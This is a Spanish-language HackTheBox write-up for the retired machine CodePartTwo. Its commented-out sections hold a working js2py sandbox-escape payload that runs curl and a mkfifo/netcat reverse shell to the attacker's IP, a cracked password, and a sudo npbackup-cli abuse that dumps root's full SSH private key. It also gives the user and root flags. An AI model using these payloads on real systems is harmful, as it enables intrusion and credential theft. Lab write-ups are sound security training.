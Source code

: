 ```yaml
---
title: 'CodePartTwo Writeup 🔒'
description: 'Es un artículo paso a paso para resolver CodePartTwo en Hackthebox retirada'
tags: ["HackTheBox", "Easy", "Linux", "Retired"]
pubDate: 'Oct 27 2025'
coverImage: './codepart.png'
---
```


En este tutorial, te mostraré cómo logré obtener el control total sobre la maquina "CodePartTwo" en HackTheBox.

## Escaneo Nmap
```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# nmap -sV -sC -A 10.10.11.82
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 15:03 -03
Nmap scan report for 10.10.11.82
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   484.20 ms 10.10.14.1
2   484.32 ms 10.10.11.82

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.80 seconds
```

## Archivo App.zip
```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# tree -f   
.
├── ./app.py
├── ./instance
│   └── ./instance/users.db
├── ./requirements.txt
├── ./static
│   ├── ./static/css
│   │   └── ./static/css/styles.css
│   └── ./static/js
│       └── ./static/js/script.js
└── ./templates
    ├── ./templates/base.html
    ├── ./templates/dashboard.html
    ├── ./templates/index.html
    ├── ./templates/login.html
    ├── ./templates/register.html
    └── ./templates/reviews.html
6 directories, 11 files
```

![WARNING placeholder](../WARNING.png)

<!-- ```python
let cmd = "curl 10.10.14.16:666/test;";
let hacked, bymarve, n11;
let getattr, obj;

hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");
obj = n11("__class__").__base__;
getattr = obj.__getattribute__;

function findpopen(o) {
  let result;
  for (let i in o.__subclasses__()) {
    let item = o.__subclasses__()[i];
    if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
      return item;
    }
    if (item.__name__ != "type" && (result = findpopen(item))) {
      return result;
    }
  }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(n11);
n11;
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# nc -lvnp 666
listening on [any] 666 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 60682
GET /test HTTP/1.1
Host: 10.10.14.16:666
User-Agent: curl/7.68.0
Accept: */*
``` -->

<!-- ```python
let cmd = "rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 10.10.14.16 1425 > f";
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, null, null, true).communicate()
console.log(n11)
n11
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# rlwrap -cAr nc -lvnp 1425
listening on [any] 1425 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 56676
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
``` -->

<!-- ```bash
$ script -c /bin/bash -q /dev/null
bash-5.0$ cat /etc/passwd | grep -Ev 'sync|false|nologin'
cat /etc/passwd | grep -Ev 'sync|false|nologin'
root:x:0:0:root:/root:/bin/bash
marco:x:1000:1000:marco:/home/marco:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
``` -->

<!-- DESDE ROOT -->
<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# nc -lvnp 666 | base64 -d > users.db               
listening on [any] 666 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 36598
                                                                                                
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# ls
users.db
``` -->

<!-- ```bash
┌──(secbytiago㉿tiaago)-[~/Descargas]
└─$ sudo sqlite3 users.db 
[sudo] contraseña para secbytiago: 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> SELECT * FROM user;
sqlite> SELECT * FROM user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
``` -->
<!-- User : marco
Passwd : sweetangelbabylove -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# ssh marco@10.10.11.82
The authenticity of host '10.10.11.82 (10.10.11.82)' can't be established.
ED25519 key fingerprint is SHA256:KGKFyaW9Pm7DDxZe/A8oi/0hkygmBMA8Y33zxkEjcD4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.82' (ED25519) to the list of known hosts.
marco@10.10.11.82's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 27 Oct 2025 07:26:06 PM UTC

  System load:  0.0               Processes:             230
  Usage of /:   57.7% of 5.08GB   Users logged in:       0
  Memory usage: 24%               IPv4 address for eth0: 10.10.11.82
  Swap usage:   0%

-bash-5.0$ whoami
marco
```

```bash
-bash-5.0$ ls
backups  npbackup.conf  user.txt
-bash-5.0$ cat user.txt 
5a8cc1a1cff89188dc3ca1c821762043
``` -->
<!-- ### User Flag
- 5a8cc1a1cff89188dc3ca1c821762043
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

```bash
-bash-5.0$ cat /usr/local/bin/npbackup-cli
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

```bash
-bash-5.0$ /usr/local/bin/npbackup-cli -h
usage: npbackup-cli [-h] [-c CONFIG_FILE] [--repo-name REPO_NAME] [--repo-group REPO_GROUP]
                    [-b] [-f] [-r RESTORE] [-s] [--ls [LS]] [--find FIND] [--forget FORGET]
                    [--policy] [--housekeeping] [--quick-check] [--full-check] [--check CHECK]
                    [--prune [PRUNE]] [--prune-max] [--unlock] [--repair-index]
                    [--repair-packs REPAIR_PACKS] [--repair-snapshots] [--repair REPAIR]
                    [--recover] [--list LIST] [--dump DUMP] [--stats [STATS]] [--raw RAW]
                    [--init] [--has-recent-snapshot] [--restore-includes RESTORE_INCLUDES]
                    [--snapshot-id SNAPSHOT_ID] [--json] [--stdin]
                    [--stdin-filename STDIN_FILENAME] [-v] [-V] [--dry-run] [--no-cache]
                    [--license] [--auto-upgrade] [--log-file LOG_FILE] [--show-config]
                    [--external-backend-binary EXTERNAL_BACKEND_BINARY]
                    [--group-operation GROUP_OPERATION] [--create-key CREATE_KEY]
                    [--create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK]
                    [--create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK]
                    [--check-config-file]

Portable Network Backup Client This program is distributed under the GNU General Public
License and comes with ABSOLUTELY NO WARRANTY. This is free software, and you are welcome to
redistribute it under certain conditions; Please type --license for more info.

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG_FILE, --config-file CONFIG_FILE
                        Path to alternative configuration file (defaults to current
                        dir/npbackup.conf)
  --repo-name REPO_NAME
                        Name of the repository to work with. Defaults to 'default'. This can
                        also be a comma separated list of repo names. Can accept special name
                        '__all__' to work with all repositories.
  --repo-group REPO_GROUP
                        Comme separated list of groups to work with. Can accept special name
                        '__all__' to work with all repositories.
  -b, --backup          Run a backup
  -f, --force           Force running a backup regardless of existing backups age
  -r RESTORE, --restore RESTORE
                        Restore to path given by --restore, add --snapshot-id to specify a
                        snapshot other than latest
  -s, --snapshots       Show current snapshots
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is
                        used
  --find FIND           Find full path of given file / directory
  --forget FORGET       Forget given snapshot (accepts comma separated list of snapshots)
  --policy              Apply retention policy to snapshots (forget snapshots)
  --housekeeping        Run --check quick, --policy and --prune in one go
  --quick-check         Deprecated in favor of --'check quick'. Quick check repository
  --full-check          Deprecated in favor of '--check full'. Full check repository (read all
                        data)
  --check CHECK         Checks the repository. Valid arguments are 'quick' (metadata check)
                        and 'full' (metadata + data check)
  --prune [PRUNE]       Prune data in repository, also accepts max parameter in order prune
                        reclaiming maximum space
  --prune-max           Deprecated in favor of --prune max
  --unlock              Unlock repository
  --repair-index        Deprecated in favor of '--repair index'.Repair repo index
  --repair-packs REPAIR_PACKS
                        Deprecated in favor of '--repair packs'. Repair repo packs ids given
                        by --repair-packs
  --repair-snapshots    Deprecated in favor of '--repair snapshots'.Repair repo snapshots
  --repair REPAIR       Repair the repository. Valid arguments are 'index', 'snapshots', or
                        'packs'
  --recover             Recover lost repo snapshots
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with
                        --dump [file], add --snapshot-id to specify a snapshot other than
                        latest
  --stats [STATS]       Get repository statistics. If snapshot id is given, only snapshot
                        statistics will be shown. You may also pass "--mode raw-data" or "--
                        mode debug" (with double quotes) to get full repo statistics
  --raw RAW             Run raw command against backend. Use with --raw "my raw backend
                        command"
  --init                Manually initialize a repo (is done automatically on first backup)
  --has-recent-snapshot
                        Check if a recent snapshot exists
  --restore-includes RESTORE_INCLUDES
                        Restore only paths within include path, comma separated list accepted
  --snapshot-id SNAPSHOT_ID
                        Choose which snapshot to use. Defaults to latest
  --json                Run in JSON API mode. Nothing else than JSON will be printed to stdout
  --stdin               Backup using data from stdin input
  --stdin-filename STDIN_FILENAME
                        Alternate filename for stdin, defaults to 'stdin.data'
  -v, --verbose         Show verbose output
  -V, --version         Show program version
  --dry-run             Run operations in test mode, no actual modifications
  --no-cache            Run operations without cache
  --license             Show license
  --auto-upgrade        Auto upgrade NPBackup
  --log-file LOG_FILE   Optional path for logfile
  --show-config         Show full inherited configuration for current repo. Optionally you can
                        set NPBACKUP_MANAGER_PASSWORD env variable for more details.
  --external-backend-binary EXTERNAL_BACKEND_BINARY
                        Full path to alternative external backend binary
  --group-operation GROUP_OPERATION
                        Deprecated command to launch operations on multiple repositories. Not
                        needed anymore. Replaced by --repo-name x,y or --repo-group x,y
  --create-key CREATE_KEY
                        Create a new encryption key, requires a file path
  --create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK
                        Create a scheduled backup task, specify an argument interval via
                        interval=minutes, or hour=hour,minute=minute for a daily task
  --create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK
                        Create a scheduled housekeeping task, specify hour=hour,minute=minute
                        for a daily task
  --check-config-file   Check if config file is valid
``` -->
<!-- 
```bash
-bash-5.0$ cat npbackup.conf 
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
``` -->

<!-- cambio /home/app/app/ a /root/.ssh/ -->

<!-- ```bash
-bash-5.0$ sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b -f
2025-10-27 19:45:40,985 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-10-27 19:45:41,015 :: INFO :: Loaded config 7BD385E4 in /home/marco/npbackup.conf
2025-10-27 19:45:41,027 :: INFO :: Running backup of ['/root/.ssh/'] to repo default
2025-10-27 19:45:42,223 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excluded_extensions
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/generic_excluded_extensions' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/generic_excludes' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/windows_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/windows_excludes' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/linux_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/linux_excludes' not found
2025-10-27 19:45:42,225 :: WARNING :: Parameter --use-fs-snapshot was given, which is only compatible with Windows
no parent snapshot found, will read all files

Files:           2 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 4.466 KiB (4.188 KiB stored)

processed 2 files, 3.094 KiB in 0:00
snapshot 9ab7ee40 saved
2025-10-27 19:45:43,502 :: INFO :: Backend finished with success
2025-10-27 19:45:43,504 :: INFO :: Processed 3.1 KiB of data
2025-10-27 19:45:43,504 :: ERROR :: Backup is smaller than configured minmium backup size
2025-10-27 19:45:43,504 :: ERROR :: Operation finished with failure
2025-10-27 19:45:43,505 :: INFO :: Runner took 2.479463 seconds for backup
2025-10-27 19:45:43,505 :: INFO :: Operation finished
2025-10-27 19:45:43,512 :: INFO :: ExecTime = 0:00:02.529448, finished, state is: errors.
``` -->

<!-- ```bash
-bash-5.0$ sudo /usr/local/bin/npbackup-cli -c npbackup.conf -f --dump /root/.ssh/id_rsa | tee id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
``` -->
<!-- 
```bash
-bash-5.0$ ls
backups  id_rsa  npbackup.conf  user.txt
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# chmod 600 id_rsa
                                                                                                
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# ssh -i id_rsa root@10.10.11.82
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 27 Oct 2025 07:52:40 PM UTC

  System load:  0.0               Processes:             234
  Usage of /:   57.8% of 5.08GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for eth0: 10.10.11.82
  Swap usage:   0%


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Oct 27 19:52:41 2025 from 10.10.14.16
root@codeparttwo:~# 
``` -->

<!-- ```bash
root@codeparttwo:~# ls
root.txt  scripts
root@codeparttwo:~# cat root.txt 
e2eeb890691e626b964ad13133445906
``` -->

<!-- ### Root Flag
- e2eeb890691e626b964ad13133445906 -->

<!-- https://blog.csdn.net/qq_43007452/article/details/150579258 -->